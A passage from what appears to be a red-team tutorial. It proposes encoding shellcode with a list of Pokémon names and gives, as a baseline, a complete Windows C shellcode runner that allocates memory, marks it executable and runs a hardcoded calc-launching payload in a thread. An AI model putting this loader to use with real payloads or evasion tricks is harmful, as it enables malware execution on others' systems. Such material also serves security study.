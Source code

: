 And another one that only has the name of the Pokemon. This might be more useful because we can get the array index position for a particular pokemon without carrying over a long string.

> https://github.com/sindresorhus/pokemon/blob/main/data/en.json

# What's the baseline?
I am taking a regular POP CALC shellcode and throwing some C's at it.

```c++
#include <windows.h>

void main() {
    void* exec;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    // Shellcode
    unsigned char payload[] =
		"\x50\x53\x51\x52\x56\x57\x55\x89"
		"\xe5\x83\xec\x18\x31\xf6\x56\x6a"
		"\x63\x66\x68\x78\x65\x68\x57\x69"
		"\x6e\x45\x89\x65\xfc\x31\xf6\x64"
		"\x8b\x5e\x30\x8b\x5b\x0c\x8b\x5b"
		"\x14\x8b\x1b\x8b\x1b\x8b\x5b\x10"
		"\x89\x5d\xf8\x31\xc0\x8b\x43\x3c"
		"\x01\xd8\x8b\x40\x78\x01\xd8\x8b"
		"\x48\x24\x01\xd9\x89\x4d\xf4\x8b"
		"\x78\x20\x01\xdf\x89\x7d\xf0\x8b"
		"\x50\x1c\x01\xda\x89\x55\xec\x8b"
		"\x58\x14\x31\xc0\x8b\x55\xf8\x8b"
		"\x7d\xf0\x8b\x75\xfc\x31\xc9\xfc"
		"\x8b\x3c\x87\x01\xd7\x66\x83\xc1"
		"\x08\xf3\xa6\x74\x0a\x40\x39\xd8"
		"\x72\xe5\x83\xc4\x26\xeb\x41\x8b"
		"\x4d\xf4\x89\xd3\x8b\x55\xec\x66"
		"\x8b\x04\x41\x8b\x04\x82\x01\xd8"
		"\x31\xd2\x52\x68\x2e\x65\x78\x65"
		"\x68\x63\x61\x6c\x63\x68\x6d\x33"
		"\x32\x5c\x68\x79\x73\x74\x65\x68"
		"\x77\x73\x5c\x53\x68\x69\x6e\x64"
		"\x6f\x68\x43\x3a\x5c\x57\x89\xe6"
		"\x6a\x0a\x56\xff\xd0\x83\xc4\x46"
		"\x5d\x5f\x5e\x5a\x59\x5b\x58\xc3";
    unsigned int payload_len = 205;
    exec = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec, payload, payload_len);
    rv = VirtualProtect(exec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);
    WaitForSingleObject(th, -1);
}
```
![](https://680730519-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FhjtCVankMBzHfXUecU9j%2Fuploads%2F7VJrtoOJZB0JKISN4fV6%2Fimage.png?alt=media&token=de3e596d-0721-4e73-aa6c-7f38addad6cb)
